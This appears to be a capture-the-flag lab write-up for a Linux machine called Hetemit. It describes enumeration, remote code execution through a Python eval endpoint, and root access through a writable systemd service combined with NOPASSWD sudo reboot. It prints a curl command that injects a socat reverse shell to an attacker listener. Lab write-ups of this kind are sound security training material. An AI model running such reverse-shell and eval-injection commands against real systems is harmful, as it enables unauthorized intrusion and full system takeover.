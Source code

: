 # 🧬 Hetemit (Linux)

**Enumeration:**  
Nmap revealed several open ports including 21, 22, 80, 139, 445, 18000, and 50000.  
On port 18000, a web app (Protomba) required an invite code to register.  
Port 50000 exposed a Python Werkzeug API with `/generate` and `/verify` endpoints.  
Used `/generate` to get an invite code and registered, but the real vulnerability was in `/verify`, which evaluates Python code directly from input.

---

**Initial Foothold:**  
Exploited the Python eval by sending:  
`curl -X POST --data "code=os" http://192.168.120.36:50000/verify`  

Confirmed code execution. Got a shell as `cmeeks` by abusing socat:  
`curl -X POST --data "code=os.system('socat TCP:MY_IP:18000 EXEC:sh')" http://192.168.120.36:50000/verify`  

Listener caught the shell on port 18000.

---

**Privilege Escalation:**  
Found writable systemd service: `/etc/systemd/system/pythonapp.service`.  

Checked sudo rights: user `cmeeks` could run `/sbin/reboot` as root without password.  

Overwrote the service to execute a reverse shell as root (via `/home/cmeeks/reverse.sh`) and rebooted the machine with `sudo reboot`.  

After reboot, caught a root shell.

---

**Summary:**  
- Exploited insecure Python eval endpoint for RCE  
- Abused writable systemd service for persistence and escalation  
- Used NOPASSWD sudo reboot to trigger malicious service and get root shell  
- Key lesson: Never leave dangerous API code or writable service files on production boxes  
